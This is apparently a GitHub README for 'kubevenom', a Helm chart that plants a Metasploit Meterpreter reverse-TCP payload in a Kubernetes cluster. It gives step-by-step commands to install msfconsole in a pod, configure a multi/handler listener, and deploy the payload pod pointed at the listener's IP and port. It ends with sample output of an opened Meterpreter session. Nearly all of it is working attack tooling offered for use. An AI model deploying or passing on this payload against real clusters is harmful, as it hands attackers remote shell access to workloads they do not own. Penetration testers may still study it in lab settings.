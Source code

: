 # kubevenom - Metasploit Payload for Kubernetes

## Demo

### 1. Install Metasploit Console

```sh
helm dep update ./metasploit
helm upgrade --create-namespace -i -n metasploit metasploit ./metasploit
```

### 2. Run MetaSploit Console

```sh
export MSF_POD_NAME=$(kubectl get pods --namespace metasploit -l "app.kubernetes.io/name=metasploit,app.kubernetes.io/instance=metasploit" -o jsonpath="{.items[0].metadata.name}")

kubectl --namespace metasploit exec -it $MSF_POD_NAME -- msfconsole.sh
```

### 3. Setup Metasploit Handler
    - `msf6 > use exploit/multi/handler`
    >  [*] Using configured payload generic/shell_reverse_tcp msf6`

    - `exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter/reverse_tcp`

    > PAYLOAD => linux/x64/meterpreter/reverse_tcp msf6 exploit(multi/handler) > run
    
    > [] Started reverse TCP handler on 10.244.0.138:4444 [] Sending stage 

### 4. Deploy Kubevenom

Export msfconsole (receive handler) network and install Kubevenom Helm Chart

```sh
export MSF_POD_IPADDRESS=$(kubectl get pods --namespace metasploit -l "app.kubernetes.io/name=metasploit,app.kubernetes.io/instance=metasploit" -o jsonpath="{.items[0].status.podIP}")

export MSF_POD_PORT=$(kubectl get pods --namespace metasploit -l "app.kubernetes.io/name=metasploit,app.kubernetes.io/instance=metasploit" -o jsonpath="{.items[0].spec.containers[0].ports[0].containerPort}")

helm upgrade --create-namespace -i -n metasploit kubevenom ./kubevenom --set lport=$MSF_POD_PORT --set lhost=$MSF_POD_IPADDRESS
```

### 3. On Your *msfconsole*

```shell
[*] Sending stage (3012548 bytes) to 10.244.0.167
[*] Meterpreter session 1 opened (10.244.0.165:4444 -> 10.244.0.167:58724) at 2021-10-20 07:36:16 +0000

meterpreter > ps

Process List
============

 PID  PPID  Name       Arch    Path
 ---  ----  ----       ----    ----
 1    0     kubevenom  x86_64  /kubevenom

```
